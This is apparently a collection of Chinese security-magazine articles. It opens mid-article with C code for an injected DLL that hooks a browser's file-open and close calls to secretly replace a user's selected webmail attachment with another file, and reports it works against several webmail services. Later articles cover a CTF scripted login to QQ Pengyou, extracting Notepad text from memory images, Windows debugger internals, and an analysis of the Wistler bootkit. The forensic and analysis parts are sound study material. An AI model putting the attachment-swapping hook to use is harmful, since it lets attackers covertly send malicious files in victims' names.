        if(!IsWindow(hEdit))
            PrevProc_EDIT = 0;

        Sleep(10);
    }
}
```

窗口处理函数用来获取被选择的文件名，实现代码如下：

```c
LRESULT CALLBACK WndProc_EDIT(
    HWND hwnd,
    UINT uMsg,
    WPARAM wParam,
    LPARAM lParam
)
{
    char *szTmp = (char*)lParam;
    char s[200];
    if(uMsg == WM_SETTEXT)
    {
        sprintf(s, "选择文件:%s", szTmp);
        strcpy(szFileName, szTmp);
        OutputDebugString(s);
    }
    return CallWindowProc((WNDPROC)PrevProc_EDIT, hwnd, uMsg, wParam, lParam);
}
```

枚举出了窗口，设置窗口属性的代码如下：

```c
BOOL CALLBACK EnumChildProc(HWND hwndChild, LPARAM lParam)
{
    char szClassName[255];

    GetClassName(hwndChild, szClassName, sizeof(szClassName)); // 获取类名
    if(!strcmp(szClassName, "Edit")) // 判断是否为 Edit 控件的句柄
    {
        OutputDebugString("发现 Edit");
        if(!PrevProc_EDIT && IsWindow(hwndChild))
        {
            PrevProc_EDIT = SetWindowLong(hwndChild, GWL_WNDPROC, (long)&WndProc_EDIT);
            OutputDebugString("改变 Edit 指向");
            hEdit = hwndChild;
        }
    }
    return TRUE;
}
```

当用户确定好文件时，浏览器会先调用 CreateFileW 来获取文件句柄，然后调用 ReadFile 来读取文件内容。

利用刚刚从上传窗口获取到的文件名，我们可以在 CreateFile 的回调函数过滤掉路径，从而确定用户选择附件的路径，把原文件替换成自己的附件（替换前备份），等待文件上传以后再把文件还原回来。我们可以再 Hook CloseHandle 来判断何时上传成功。

CreateFileW 的处理过程如下：

```c
__out
HANDLE
WINAPI
HookCreateFileW(
    __in      LPCWSTR lpFileName,
    __in      DWORD dwDesiredAccess,
    __in      DWORD dwShareMode,
    __in_opt  LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    __in      DWORD dwCreationDisposition,
    __in      DWORD dwFlagsAndAttributes,
    __in_opt  HANDLE hTemplateFile
)
{
    wchar_t szInfo[MAX_PATH + 5];
```

```cpp
char s[1000] = {0};

wsprintfW(szInfo, L"Func: HookCreateFileW FileName:%s\n", lpFileName);
// OutputDebugStringW(szInfo);
int len = WideCharToMultiByte(CP_ACP, 0, lpFileName, -1, 0, 0, NULL, NULL);
// Unicode to ANSI
char* szANSI = new char[len + 1];
WideCharToMultiByte(CP_ACP, 0, lpFileName, -1, szANSI, len, NULL, NULL);
szANSI[len] = 0;
if (strlen(szFileName) > 0 && strstr(szANSI, szFileName)) // 如果 lpFileName 参数中有选中的文件名，则将它重定位
{
    sprintf(s, "拦截到文件:%s\n", szANSI);
    OutputDebugString(s);
    strcpy(szOldFileName[index], szANSI); // 保存源文件路径
    sprintf(szBakFileName[index], "%s.bak", szANSI);
    rename(szANSI, szBakFileName[index]); // 将源文件重命名成 xxx.bak
    SetFileAttributes(szBakFileName[index], FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM); // 对备份的文件进行隐藏
    CopyFile(szMyFile, szANSI, FALSE); // 将源文件替换成自己的文件
    szFileName[0] = 0;
    hFile = TrueCreateFileW(lpFileName, dwDesiredAccess, dwShareMode,
        lpSecurityAttributes, dwCreationDisposition, dwFlagsAndAttributes, hTemplateFile);
    return hFile;
}
return TrueCreateFileW(lpFileName, dwDesiredAccess, dwShareMode,
    lpSecurityAttributes, dwCreationDisposition, dwFlagsAndAttributes, hTemplateFile);
}
```

之后勾挂 CloseHandle 用于监视上传成功，代码如下：

```cpp
BOOL WINAPI HookCloseHandle(__in HANDLE hObject)
{
    void RestoreFile(void *args);
    if (hObject == hFile)
    {
        hFile = (HANDLE)-111; // 将句柄置为无效，以免冲撞
        _beginthread(RestoreFile, 0, NULL); // 启动一个线程用来还原文件
        OutputDebugString("上传完成");
    }
    return TrueCloseHandle(hObject);
}
```

创建一个线程用于监视上传，以及恢复源文件，代码如下：

```c
void RestoreFile(void *args) // 该线程用于还原被替换的文件
{
    Sleep(2000); // 等待文件读取完成
    while (1)
    {
        if (access(szOldFileName[index], 2) == 0 && access(szBakFileName[index], 0) == 0) // 判断文件是否可以访问，能访问则上传成功
        {
            if (DeleteFile(szOldFileName[index])) // 删除被替换的文件，也是自己文件的路径
            {
                OutputDebugString("文件删除成功\n");
                if (!rename(szBakFileName[index], szOldFileName[index])) // 备份文件恢复文件名
                {
                    SetFileAttributes(szOldFileName[index], FILE_ATTRIBUTE_NORMAL); // 恢复源文件属性

                    index++; // 序号自增 1，准备下个文件
                    OutputDebugString("文件更名成功\n");
                    memset(szFileName, 0, strlen(szFileName)); // 清理变量
                    hFile = (HANDLE)-111;
                    memset(szOldFileName, 0, strlen(szOldFileName[index]));
                    memset(szBakFileName, 0, strlen(szBakFileName[index]));
                    hEdit = NULL;
                    _endthread();
                    return;
                }
                else
                    OutputDebugString("文件更名失败\n");
            }
            else
                OutputDebugString("文件删除失败\n");
        }
        Sleep(100);
    }
}
```

最后，我们在 DLL 加载后，安装钩子，启动线程监视窗口就可以了，代码如下：

```c
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    char szTest[100], szOut[100];
    GetModuleFileName((HINSTANCE)hModule, szTest, sizeof(szTest));
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        sprintf(szOut, "Load %s Pid: %d", szTest, GetCurrentProcessId());
        OutputDebugString(szOut);
        Mhook_SetHook((PVOID*)&TrueCreateFileW, HookCreateFileW); // 安装钩子
        Mhook_SetHook((PVOID*)&TrueCloseHandle, HookCloseHandle);
        _beginthread(FindMailWindow, 0, NULL); // 启动线程寻找窗口
        break;
    case DLL_PROCESS_DETACH:
        Mhook_Unhook((PVOID*)&TrueCreateFileW);
        Mhook_Unhook((PVOID*)&TrueCloseHandle);
        break;
    }
    return TRUE;
}


```

最终实现的效果我们进行一下测试，将任意一个附件篡改成 notepad.exe，这里以文本文件为例，如图 2 和图 3 所示。
图 2
图 3

本文代码使用 VC6.0 编译，在 Windows 7 32 位 IE8/9/10 和火狐下测试通过了 163、126、GMAIL、HOTMAIL、QQ 邮箱。

### HTTP 模拟登录 QQ 朋友网

文/图 宗旋

最近参加了西电信息安全（xdsec.org）举办的西安电子科技大学第四届网络攻防大赛 2013 线上夺旗赛（ctf.xdsec.org）。Coding 题目第三题为“抓包分析，编写一个程序/脚本，实现自动登录朋友网并发表状态”。由此我编写了这样一个程序，在这里详细介绍下 QQ HTTP 登录方式，主要是朋友网。

首先就是抓包了，本来就第一次接触 HTTP 模拟，曾经看到冷夜（upker.net）写过的一篇 shell 脚本使用 curl 模拟登录人人网的例子，不过我运行不成功。人人网也是明文传输，所以我觉得人人网可能相对于 QQ 登录机制相差甚远。

通过抓包得出结论，从登录到发布朋友网状态总共分为四部分，当然这比大象装冰箱还多了一步，显然很繁琐。

- 步骤一就是 QQ 号码验证是否需要输入验证码，这里就比较简单了，根据返回数据包判断是否需要输入。有个关键性问题需要指出，朋友网使用 cookie 验证后续的操作，所以这时候我们需要保存 cookie，Python 专门有 cookie 处理模块，所以用起来也比较方便。  
  “http://captcha.pengyou.com/getimage?uin=' + qq + '&r=Math.random()” 这个 URL 就是获取验证码的网址，可以手动在浏览器输入试试。

- 步骤二是最复杂的，让我好久才搞定。分析 QQ 密码本地加密方式的 JS 代码如下：

```js
var M = C.p.value;
var I = hexchar2bin(md5(M));
var H = md5(I + pt.uin);
var G = md5(H + C.verifycode.value.toUpperCase());
```

看起来就三个函数调用，但其实很复杂，向 Python 移植也失败了，所以我只能在 C# 环境下实现，代码也不是原创，来自 CSDN 的一篇博文。我此时是将加密模块编译成 exe，然后利用 Python 的管道进行交互。既然加密解决了，就发送登录请求：  
`http://ptlogin2.pengyou.com/login?u=' + qq + '&p=' + passwd + '&verifycode=' + verycode + '&aid=15004601&u1=http%3A%2F%2Fwww.pengyou.com%2Findex.php%3Fmod%3Dlogin2%26act%3Dqlogin&h=1&ptredirect=1&ptlang=2052&from_ui=1&dumy=&fp=loginerroralert&action=4-9-7587&mibao_css=&t=1&g=1&js_type=0&js_ver=10048&login_sig=Gfr5jWK3tsBu4lr4z1K0mdmqOzc60cJgd4qafg0yQ8HtEVFlau6xQEDy1cHnWxHd`  
就可以实现正确登录。

- 步骤三，QQ 登录成功会返回一个网址，此网址是固定的，为 `http://www.pengyou.com/index.php?mod=login2&act=qqlogin`，也就是朋友网的主页，因为我们需要里面的一个 uin 值，此 uin 是用户发表状态的一个验证。Python 实现获取 uin 的代码如下，是对 HTML 标签的匹配。

```python
search = 'quick-list'
start = 0
index = body.find(search, start)
start = index + 78
return body[start:start+48]
```

- 步骤四，发送状态的网址是 POST 方式：  
  `http://taotao.pengyou.com/cgi-bin/emotion_cgi_publish_v6?g_tk=' + sk_g_tk`，此时还没有拿到 sk_g_tk，这里很简单，朋友网 JS 代码里有，将其移植到 Python 下即可。

```python
def g_tk(string):
    hashing = 5381
    for i in range(len(string)):
        hashing += int(hashing << 5) + int(binascii.b2a_hex(string[i]), 16)
    return hashing & 0x7fffffff
```

传值参数是 cookie 里面的 skey 的值，所以我们需要获取 cookie 的这个参数。

```python
for index, cookie in enumerate(cj):
    if (cookie.name == 'skey'):
        skey = cookie.value
```

发送网址也搞定了，需要内容，内容是会有验证的，此时 uin 的作用就显示出来了，利用如下代码，需要的内容就可以发送了。

```python
send = 'plattype=2&format=json&con=' + send + '&hostuin=' + uin + '&feedversion=1&ver=1&noFormSender=1&plat=pengyou'


```

这样就完成了登录朋友网并且发状态的功能。当然，有很多细节问题还没有涉及。这里简单说下发表中文状态的解决办法，此时需要中文的 urlencode（JS 下）编码。我是利用 Python 的模块调用 JS 代码来实现的，效果如图 1 所示。
图 1

### 内存镜像中的文本信息提取技术研究

文/爱无言

在计算机取证过程中，由于实际情况的不同，计算机取证可以分为开机取证和关机取证。这两种情况下，主要都是针对计算机的存储设备进行数据提取。从提取的数据类别上看，可以涉及到操作系统版本、网络残留数据、注册表或者系统配置文件、日志信息、可执行文件以及其它数据文件。在这些数据中，内存数据是非常关键的一个环节。

内存数据是指计算机运行过程中，产生在本地物理内存设备上以及缓存硬盘上的数据。这些数据信息可以是当前运行程序、文本数据、文件数据、网络端口数值、网络连接地址、网络使用状态、内核数据等。在内存数据中，文本、文件数据所占比例最大。这是因为计算机运行时需要大量文件支持，在处理文件的过程中会产生文本数据信息在系统当中。内存数据的重要性可以表现在它是对当前计算机运行状态的一种直观记录，对内存数据的分析，可以找出计算机运行过程中所有的用户行为和系统行为。无论当前计算机是否涉及到计算机犯罪，内存数据的取证都可以较为全面地找出相关证据，为此，必须对内存数据进行严格细致的取证分析，获取第一证据。本文主要研究设计的就是一种针对内存文本数据进行取证的实用性方法。

在 Windows 环境下对物理内存取证，就要把当前时刻的物理内存信息镜像出来，然后对此物理内存镜像进行分析。要操作内存，必须深刻理解 Windows 的内存管理机制。Windows 环境下，内存管理是基于页目录和页表的方式，进程从各自的虚拟地址空间映射到共同的物理地址空间。在 Windows 系统中，每个进程都被分配一个地址空间。对于 32 位进程来说，2 的 32 次幂大小是 4G。32 位指针可以指向从 0x00000000--0xFFFFFFFF 的任何一个值，即 4,294,967,296 个值中的一个值。每个进程都拥有 4G 的地址空间，而 Windows 系统会并发许多进程，那么整个地址空间将是巨大的。即使只有一个进程，实际的内存往往也不到 1G，仍然不能满足进程的需要。因此，这个 4G 的地址空间是虚拟地址空间，也就是说由 Windows 分配，不依赖于具体硬件。

每个进程拥有的 4G 虚拟地址空间是私有的，里面包括本进程所需要的各种系统资源，进程中的线程只能访问本进程的地址空间。进程的 4G 虚拟地址空间经过地址变换，映射到物理内存上。这样，每个进程的地址空间内可以使用相同的虚拟地址，它们经过地址变换后，映射到不同的物理地址上。实际上，每个进程的内部数据结构如页目录、页表等，都是使用相同的虚拟地址，这样就方便了高层的使用。这些相同的虚拟地址经过地址变换，映射到不同物理地址上，这是由操作系统完成的，对高层透明。

如果需要对文本信息进行提取，首先必须获得内存中文本进程的内存数据。一般来说，对于 Windows 操作系统，文本进程特指是 notepad.exe，即 Windows 系统自带的记事本程序。要想获得到当前内存中 notepad.exe 进程的相关数据信息，我们这里采用结合 Eprocess 结构的方式来进行。

Eprocess 结构中的 imagename 包含了当前进程的名称，为此通过查找关键字“notepad.exe”就可以遍历出内存镜像中存在多少个文本进程。在查找出 notepad.exe 进程的数量之后，以该数量为循环次数，开始查找文本信息。此时我们不采用内存地址转换的方式，而是采用查找内存镜像中的 MagicKey 来找到文本信息。经过一定时间的分析，发现每当 notepad.exe 进程运行在内存中时，总会在其中保留空白区用于存放文本信息，在空白区之前会以字符“#”进行分隔。于是，我们便可以写出如下的文本信息提取代码。

```c
for(int jj=0; jj<notepadnum; jj++)
{
    do{
        fread(a_pData, 1, 19, fp);
        if(a_pData[0]==0x2E&&a_pData[1]==0x00&&a_pData[2]==0x74&&a_pData[3]==0x00&&
           a_pData[4]==0x78&&a_pData[5]==0x00&&a_pData[6]==0x74&&a_pData[7]==0x00&&a_pData[8]==0x00&&a_pData[9]==0x00&&
           a_pData[10]==0x00&&a_pData[11]==0x00&&a_pData[17]==0x23&&a_pData[18]!=0)  // 找到MagicKey
        { break; }
        lonum=lonum+1;
        fseek(fp, lonum, SEEK_SET);
    }while(lonum<FileLen-20);

    lonum=lonum+20;
    fseek(fp, lonum, SEEK_SET);
    fread(a_pData, 1, 12, fp);

    if(a_pData[0]!=0x00&&a_pData[1]!=0x00&&a_pData[2]!=0x00&&a_pData[3]!=0x00&&
       a_pData[4]!=0x00&&a_pData[5]!=0x00&&a_pData[6]!=0x00&&a_pData[7]!=0x00&&
       a_pData[8]!=0x00&&a_pData[9]!=0x00&&a_pData[10]!=0x00&&a_pData[11]!=0x00)  // 区别不同情况准备提取文本
    {
        do{
            txtinmem[j]=a_pData[0];
            j++;
            lonum=lonum+1;
            fseek(fp, lonum, SEEK_SET);
            fread(a_pData, 1, 14, fp);
            if(a_pData[0]!=0)
            {
                if(a_pData[2]==0x00&&a_pData[3]==0x00&&a_pData[4]==0x00&&a_pData[5]==0x00&&
                   a_pData[6]==0x00&&a_pData[7]==0x00&&a_pData[8]==0x00&&a_pData[9]==0x00&&
                   a_pData[10]==0x00&&a_pData[11]==0x00&&a_pData[12]==0x00&&a_pData[13]==0x00) break;
            }
            else if(a_pData[1]==0x00&&a_pData[2]==0x00&&a_pData[3]==0x00&&a_pData[4]==0x00&&
                    a_pData[5]==0x00&&a_pData[6]==0x00&&a_pData[7]==0x00&&a_pData[8]==0x00&&
                    a_pData[9]==0x00&&a_pData[10]==0x00&&a_pData[11]==0x00&&a_pData[12]==0x00) break;
        }while(1);
    }
}
```

需要注意的是，此时文本信息是以双字节方式存放在内存中的，为此，在找到文本信息后，需要对双字节进行转换，然后显示出来，这个过程的代码如下：

```c
isize=WideCharToMultiByte(CP_ACP,0,(wchar_t*)txtinmem,-1,NULL,0,NULL,NULL);
char * p=(char*)malloc(isize+1);
memset(p,0,sizeof(char)*(isize+1));
WideCharToMultiByte(CP_ACP,0,(wchar_t*)txtinmem,-1,p,isize,NULL,NULL);
fwrite(p,1,isize,result);
```

此时，我们就成功获取到了内存镜像中的文本数据信息。利用该技术进行内存文本数据信息提取时，代码开发较为简单，但是时间消耗可能存在问题，为此可以利用多线程方式进行并行分析。对于大多数情况而言，完全没有必要对整个镜像文件进行分析，而是从镜像文件的二分之一位置开始分析，这会大大提高分析效率。在某些特殊场合，这种分析方法甚至会比内存地址转换方法更为准确有效。

### 浅议 Windows 调试机制

文/图 王晓松

学过编程的读者对调试器并不陌生，小型的有 Turbo C，大型的有 Visual C++。调试机制在编程中的作用极其重要，往往一个程序的编写完成，大部分的工作在于调试，一个好的调试器可以使编程如虎添翼，事半功倍。那么一个调试器背后运行的原理是什么呢？通常来说，一个调试器会由反汇编引擎、用户界面、调试事件处理等部分组成。这篇文章将从调试器的断点机制入手，继而向读者简单地介绍调试器的原理以及 Windows 的调试机制，希望读者在熟练地使用调试器的同时，对其后台的运行机制也有所了解。

### 调试器断点的使用

F2、F4、F7、F8……如果你是个程序员，对这几个功能键可能要比自己的身份证号码还要熟悉。程序员老鸟通常会信口道来：“F2 嘛，就是在光标处设置断点，当程序全速执行，就会停留在设置的断点处；F4 就是让程序直接执行到光标处，类似于在光标处设置断点，然后程序全速运行的打包；F7、F8 两个都是单步执行，但 F7 会一条指令一条指令地执行，碰到函数就会钻进去，F8 呢，则会跳过遇到的函数，直接执行函数后的指令。”

除了上述比较常用的调试方法，一般调试器还会提供对内存操作的断点支持，例如调试者可以对某个地址设置写断点（若有对该地址的写操作，程序则会中断，进入调试程序）或者访问断点（对该地址的访问将触发中断）。调试器还会提供其他的一些辅助调试办法，可以说，这些办法的使用极大地提高了调试的效率。

### 调试器断点的运行机制

实际上，调试这个活是调试器、操作系统和 CPU 共同配合的结果，每个成员都对调试的机制做出了专门的设计。我们首先学习下 CPU 对调试断点机制的支持，在 Intel 芯片内部有专门用于调试的 8 个寄存器 DR0～DR7。

- DR0～DR3：四个调试寄存器，每个可以是一个断点的地址，因此使用硬件断点时最多能够设置 4 个断点。
- DR4～DR5：两个寄存器没有使用，原因不明。
- DR6～DR7：记录的是 DR0～DR3 中断的属性。

注意，这几个寄存器虽然是置于 CPU 内部的，但并不是针对所有的进程。比如 DR0=0x503000，并不是所有的进程执行到地址 0x503000 都会中断，而只是针对某一个进程。当切换到别的进程时，其 DR0 内容会发生变化，因为对于每个进程，其执行环境（包括各寄存器的值）是变化的。DR6～DR7 寄存器中分别对 DR0～DR3 中断属性进行了设置，例如设置了 DR0=0x503000 这个中断，那么 DR6～DR7 寄存器中会有相应的位，决定这个中断是针对读还是写或者执行，长度上是对字节、字还是双字。

除了硬件断点寄存器以外，在 Intel 内部还有个比较重要的 EFLAGS 寄存器，其中的 TF 位专门用于单步调试。TF 正常状态下为 0，若需要程序单条指令地执行，可首先将 TF 置 1，然后程序全速执行，CPU 在执行过一条指令后会马上中断，并且将 TF 置 0。若仍想单步调试，则需要继续设置 TF 为 1，否则 TF=0 时对程序以后的执行不会产生影响。

断点的实现在各个调试器中并不完全相同，在这里我们介绍一下通用的实现方法。好了，有了上面的基础知识，我们试着看下使用断点背后执行的一些操作。

### 1. F7 单步运行

F7 单步运行背后依靠的完全是 EFLAGS 寄存器中的 TF 标志。当我们按下 F7 键时，调试器将 TF 位置 1，然后程序流执行；当执行过一条指令后，自动停止，并且 TF=0，此时可以显示变量、寄存器的变化，便于调试。

### 2. F4 运行到光标

F4 的实现背后依靠的是硬件断点寄存器。当我们按下 F4 键时，调试器将光标处的地址赋予硬件断点寄存器，然后程序运行，在断点处停止。

### 3. F8 单步运行

F8 单步运行的实现与 F7 的单步运行原理类似，只是当需要执行的指令是 call 指令时，则将 call 指令后的那条指令地址设为硬件断点，其后程序全速运行，在 call 指令后即硬件断点处停止。

### 4. F2 设置断点

以上三个断点功能使用了 CPU 提供的硬件机制，所以一般称为硬件断点。硬件断点的优点是速度快，缺点是资源有限，比方说硬件断点寄存器只能够设置 4 个断点。而 F2 设置断点的机制与之相对，称为软件断点，其实现的方法是修改断点处的指令，将第一个字节改为 0xCC（即 int 3 指令）。当被调试程序执行到这里时，程序停止，进入中断 3 的处理，调试器接收到这个异常后，将该断点处的指令修改为原始代码，等待调试者进一步的调试要求。

由于这种断点机制无需专用的 CPU 支持，只是在被调试程序中修改代码，因此称为软件断点。原则上说，设置软件断点并没有数量上的限制。

以上我们介绍了硬件断点和软件断点，通常设置在被调试程序的代码空间。还有一种断点用于被调试程序对内存进行访问时中断，这种断点称为内存断点。这种断点设置的空间就不仅仅局限于代码空间，还包括数据段。内存断点可以实现对内存访问和内存写两种断点，其实现原理为：

- 内存访问断点。将断点所属页面的属性修改为不可访问，当被调试程序访问该页面时，异常产生并传递给调试器，调试器判断访问的地址是否是设置断点的地址，若是，则被调试程序停止，否则被调试程序继续执行。
- 内存写断点。将断点所属页面的属性修改为可读可执行，当被调试程序访问该页面时，异常产生并传递给调试器，调试器判断访问的地址是否是设置断点的地址，若是，则被调试程序停止，否则被调试程序继续执行。

小结一下，断点分为软件断点、硬件断点和内存断点，在 CPU 和调试器的支持下分别实现不同的断点功能。但是调试器进程和被调试进程属于完全两个不同的地址空间，调试器进程是如何将断点设置在被调试进程中的呢？通常调试器在设置断点时，被调试程序的线程处于 suspend（悬停）状态，这时的线程执行环境保存在一个称为 CONTEXT 的结构中，其中包括了线程运行时处理器各主要寄存器的完整镜像。当线程重新开始运行时，系统将 CONTEXT 中的内容赋予各个寄存器，完成执行环境的重构。因此，我们可以通过修改 CONTEXT 中某个字段内容，来达到修改目标线程寄存器的目的。CONTEXT 结构示例如下：

```c
typedef struct _CONTEXT {
    ULONG ContextFlags;
    ULONG Dr0;
    ULONG Dr1;
    ULONG Dr2;
    ULONG Dr3;
    ULONG Dr6;
    ULONG Dr7;
    ......
    ULONG SegDs;
    ......
    ULONG EFlags;
    ULONG Esp;
    ULONG SegSs;
    UCHAR ExtendedRegisters[MAXIMUM_SUPPORTED_EXTENSION];
} CONTEXT;
```

可以看到，其中正有我们需要的 DR0～DR7、EFLAGS 寄存器。Windows 提供了 GetThreadContext() 和 SetThreadContext() 两个函数帮助调试器查看和修改被调试线程的执行环境。比如调试器需要在被调试线程的地址 0x503000 设置一个硬件断点，那么通过 SetThreadContext() 函数修改被调试线程对应的 CONTEXT 结构中的 DR0=0x503000，当被调试程序重新运行时，被调试线程中的 DR0 即为 0x503000。

前面提到，调试机制是调试器、操作系统与 CPU 共同配合的结果，那么操作系统扮演什么角色呢？别急，实际上操作系统在调试机制中是个至关重要的角色。

### Windows 的调试机制

学习了前面的内容，细心的读者会问：调试器进程和被调试进程是完全两个不同的进程，当被调试程序执行到断点时，产生的异常是如何传递到调试器的呢？一个调试器的结构又是怎样的呢？带着这些疑问，我们来看看 Windows 的调试机制。

首先我们先来回顾一下 Windows 操作系统中的异常处理机制。对于用户模式的异常，Windows 通过以下步骤进行处理：

- 当操作系统进入异常处理程序后，会首先判断异常进程的调试端口是否为空。若为空且有内核调试器，则将异常信息传递给内核调试器；若调试端口不为空，则发送调试信息到调试端口，由调试器接手；若无调试器存在，进入步骤 2。
- 进入 Windows 调用帧异常处理机制，若仍然没有得到有效的处理，进入步骤 3。
- 再次检查异常进程有无调试端口，有则交给调试器处理，否则发送消息到该进程的异常端口，若仍然没有处理，则进程终止。

通过上面的步骤可以看出，操作系统在异常处理流程里已经加入了对调试机制的支持。为了利于调试，在异常处理程序的前后，分别给了调试器一次接手异常的机会。上述步骤中让人感到陌生的一个概念就是调试端口，这是什么东西呢？可以认为调试端口就是一个指针，指向一个重要的结构——调试对象。

从 Windows XP 系统开始，Windows 内核中引入了一种新的对象类型——“调试对象”（DebugObject），可以说调试对象是连接调试器与被调试程序的一个纽带。首先我们看下调试对象的结构：

```c
typedef struct _DEBUG_OBJECT {
    KEVENT EventsPresent;   // 是否有调试事件
    FAST_MUTEX Mutex;       // 互斥量，用于同步对该对象的操作
    LIST_ENTRY EventList;
    ULONG Flags;            // 标志位
} DEBUG_OBJECT, *PDEBUG_OBJECT;
```

其中最重要的就是 EventList 链表，可以简单地将这个链表理解为一个消息队列，其存储的正是投递给该调试对象的调试消息。

调试器调试程序的方式有两种：一种是通过创建新进程的方式，另外一种是通过挂接（attach）目标进程的方式。无论是哪种方式，最重要的步骤都是新建一个调试对象，从而建立调试器与被调试对象交互的纽带。

如果简化来说，一个调试器的实现通常应该包括两个线程：一个线程用来与用户交互，接收调试者的指令，并将调试的执行情况反馈给用户；另外一个线程用于完成用户下达的指令，如设置断点、控制被调试程序的运行与停止、接收操作系统反馈的调试消息等。其内部往往是类似于如下代码的循环结构：

```c
while (WaitForDebugEvent(&DbgEvt, ...)) {
    // 处理调试事件
    ContinueDebugEvent(DbgEvt.dwProcessId);
}


```

其中，WaitForDebugEvent 函数用于等待和接收调试事件，ContinueDebugEvent 函数用于将处理结果返回给调试子系统，让被调试程序继续运行。换句话说，调试器就是在不停地等待调试事件，然后处理这些事件，再进入等待的循环之中。调试事件以消息的形式存放在对应的调试对象中。如图 1 所示。
图 1  一个调试事件的处理流程

在 Windows 操作系统中，有专门的调试子系统作为调试支持。调试子系统实际上就是一系列完成调试功能的内核例程，在这里就不进行详细的描述了。在最初调试器启动被调试程序时，会与调试子系统建立连接：好了，我要调试啦，帮我创建一个调试对象吧。调试对象创建后，将其对象指针保存在调试器进程 TEB（Thread Environment Block，线程环境块）的 DbgSsReserved[1] 字段中，同时调试子系统也将被调试进程 TEB 的 DebugPort 字段指向这个调试对象。好，调试器和被调试进程拉手成功，有了连接对方的纽带——调试对象。

下面我们以图 1 为例，讲解一下一个调试事件的处理流程：当被调试线程发生异常时，比如遇到一个 int3 指令，或者遇到一个硬件断点时，系统会进入 Windows 异常处理流程。注意在这里，异常处理流程会判断被调试进程 TEB 的 DebugPort 字段是否为空，此时当然并不为空，并且其内容恰恰是刚才创建的调试对象。那么异常处理机制会将异常信息传递给调试子系统，通过调试子系统的转换形成调试消息，投递到调试对象中的调试消息队列中。此时正在 WaitForDebugEvent(&DbgEvt, ...) 中睡大觉的调试器进程会被唤醒，取出调试消息队列中的内容，进入调试器设定的处理流程，处理完毕后继续等待。这样，调试器进程通过 DbgSsReserved[1] 字段定位到读取调试消息的位置，而调试子系统则根据异常进程的 DebugPort 字段定位到投递消息的位置，一次调试事件就这样通过被调试程序的异常、Windows 异常机制、调试子系统、调试对象、调试器进程的接力传递而顺利完成。

#### 小结

本文在介绍了调试器的断点实现后，对 Windows 的调试机制进行了说明。由于篇幅有限，对 Windows 调试机制的介绍也只是给出一个轮廓性的陈述，有兴趣的读者可以进一步参看相关的文档。

（完）

## BOOTKIT 探秘之 Wistler 木马分析

文/图 0daywang Overdb 熊猫正正

Wistler 木马是一个感染计算机系统磁盘引导扇区、加载驱动保护自己，并通过层层 Hook 等手段在系统启动的时候加载自己下载器的一款 Bootkit 木马。本文将从 Bootkit 分析开始，以揭开 Wistler 木马的层层面纱。开篇之前，我们先看下 Wistler 的运行流程，如图 1 所示。
图 1

### BOOTKIT 部分

图 2 所示为 Wistler 木马 Bootkit 部分的运行结构，下面我们会分别对其进行说明。
图 2

### 1. MBR1

如图 3 所示，在 MBR 区读取磁盘上的感染数据到 0x7C00 地址处。
图 3

遍历磁盘分区，找到并确定最后一个磁盘分区后面的第一块扇区地址（secsofoverlaydisk），获得磁盘感染数据的扇区地址（磁盘分区最后一块扇区地址 + 2，即最后一个磁盘分区后面第三个扇区地址），从磁盘感染扇区地址处读取 0x40 个扇区数据到 0x7C00 处，即回写 MBR 处的数据，再跳转到 0x7C00 处执行新回写的病毒代码。如果以上流程发现错误，则直接读取磁盘分区号为 0x80 的磁盘分区（即引导分区）的 DBR 回写 MBR，再跳转至 0x7C00，进入正常的系统流程。

### 2. MBR2

#### 2.1 获取每个分区的文件格式属性

木马会获取每一个主分区及扩展分区的一些属性值，放到一个以 0x5000 地址为起始地址的结构体（attrstruct，结构体大小为 1F）数组内，如图 4 所示。
图 4

该结构体的主要结构如下：

```c
struct attrstruct{
    +0   dword addr           ; 病毒数据存放的原始地址，以扇区为单位
    +4   dword sizeofsec      ; 扇区尺寸
    +8   dword secsofdisk     ; 磁盘总扇区数
    +A   byte  flag           ; 4Eh
    +B   word  secspercluster ; 每簇扇区数
    +D   word  bytespersec    ; 每扇区字节数
    +F   byte  numberMFT      ; 每 MFT 记录簇数
    +10  dword NumofMFT       ; $MFT 的逻辑扇区号
    +13  byte  clustersperindex ; 每索引簇数
    +14  byte  diskflag       ; 该分区系统类型标志
    +1E  byte  DISK           ; 磁盘分区号
}


```

该属性结构存放在 5000h 处，每个结构大小 1F，其中 Flag 为其文件系统的格式，定义为：

- NTFS 为 N
- FAT16 为 10h
- FAT32 为 20h
- 自定义的文件系统，其标识为 R（主要用来读写磁盘中病毒感染部分的数据）
- 如果出现下列任一情况时，Flag 标识为 C：用 int13h 的 48h 号指令获取磁盘参数信息失败时；磁盘为 PATA；驱动器写入时不支持写入校验；扇区的大小为 0x800

#### 2.2 获取每个文件的属性

病毒对 NTFS 和 FAT 的文件系统均做了相应的处理，这里以 NTFS 和其自定义的文件系统（以下会简称为 RFS）为例说明病毒的大致流程。

病毒会将几个文件的基本信息存放在一个大小为 0x31 的结构里，该结构紧挨着磁盘信息的 0x1F 结构存放；根据 2.1 中 0x1F 结构的磁盘信息，遍历各个磁盘分区，查找到相应的文件；如果结构中的 flag 为 N，则通过 NTFS 的方式查找样本，如图 5 所示。查找流程如下：
图 5

遍历 MFT 记录，通过分析比对 MFT 记录中文件的目录属性（属性类型为 0x90 和 0xA0（大目录））的文件名属性的文件名，找到目标文件的层级关系。如果找到目标文件，则读取文件的一些基本存储信息，如扇区地址、大小等信息，存放在 0x31 的结构里。读取文件的函数中，若 [bp-0EFh] 的值为“open”，则既可以读文件也可以写文件，但实际中并未发现这段程序使用这个函数进行写操作，如图 6 所示。
图 6

如果结构中的 flag 为 R，则通过其 RFS 自定义的方式查找文件。其实磁盘中的感染代码就是用这种自定义的文件系统进行存储，即磁盘被感染的代码可作为一个磁盘分区，该分区采用的就是这种标识为 R 的文件系统格式。

- RFS 以扇区为基本存储单位；
- 扇区地址从 0 开始标识，即第一个扇区的扇区地址为 0，如图 7 所示；
- 第一个扇区，即 0 号扇区是一个目录表，每个目录大小为 0x40；
- 从上面的结构可以看出来，RFS 并没有根目录的概念，所以查找文件时直接根据文件名查找目录表，即可查找到相应文件的地址和大小信息。

```c
struct indextable{
    +0   DWORD Address;         // 相对扇区地址，相对于 RFS 的起始扇区
    +8   DWORD SizeOfFile;      // 文件的大小（单位扇区）
    +10  DWORD                  // 此处存放的也是文件大小，等于 +8 处的值
    +20  Char  szFileName[0x20]; // 文件名
}


```
图 7

